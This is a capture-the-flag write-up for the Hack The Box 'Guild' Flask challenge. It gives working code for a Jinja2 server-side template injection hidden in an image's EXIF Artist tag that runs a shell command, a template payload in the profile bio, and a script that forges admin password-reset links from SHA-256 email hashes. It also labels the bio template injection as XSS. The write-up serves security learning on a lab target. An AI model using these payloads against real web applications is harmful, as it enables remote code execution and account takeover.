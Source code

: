# Hack The Box CTF Writeup - Guild


## Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

## Vulnerabilities and Exploitation
### 1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.
<img src="images/upload.png">
Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

### 2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

<img src="images/bio.png">

<img src="images/bio.png">

### 3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Then verify the uploaded image
<img src="images/flag.png">


###Steps to Exploit:
1. Craft a payload image and upload
2. Inject script in bio to reveal admin's email
3. forgot password using admin's email
4. Generate the password reset link using the admin's email
5. Reset the admin password using the generated password reset link.
6. Log in as admin and verify the malicious image.
7. The injected payload in the EXIF "Artist" tag will execute and display the flag.
